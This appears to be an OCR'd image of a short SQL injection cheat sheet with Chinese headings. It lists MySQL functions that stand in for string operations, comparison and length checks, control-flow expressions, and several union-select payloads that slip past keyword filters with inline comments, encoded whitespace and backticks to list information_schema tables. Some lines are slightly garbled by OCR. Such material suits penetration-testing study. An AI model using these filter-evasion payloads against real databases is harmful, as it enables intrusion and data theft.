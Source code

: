 ``` sql
  
substring_index('ab','b',1) 
#分割字符串
  
length(trim(leading 'a' FROM 'abc'))
  
length(replace('abc', 'a', "))
#比较字符串
  
strcmp('a','a')
  
mod('a','a')
  
find_in_set('a','a')
  
field('a','a')
  
count(concat('a','a'))
#字符串长度
  
length()
  
bit_length()
  
char_length()
  
octet_length()
  
bit_count()
#关键字过滤
  
Connected keyword filtering
  
(0)union(select(table_name),column_name,…
  
0/**/union/*!50000select*/table_name`foo`/**/…
  
0%a0union%a0select%09group_concat(table_name)….
  
0′union all select all`table_name`foo from`information_schema`. `tables`
#控制流
  
case 'a' when 'a' then 1 [else 0] end
  
case when 'a'='a' then 1 [else 0] end
  
if('a'='a',1,0)
  
ifnull(nullif('a','a'),1)
```  
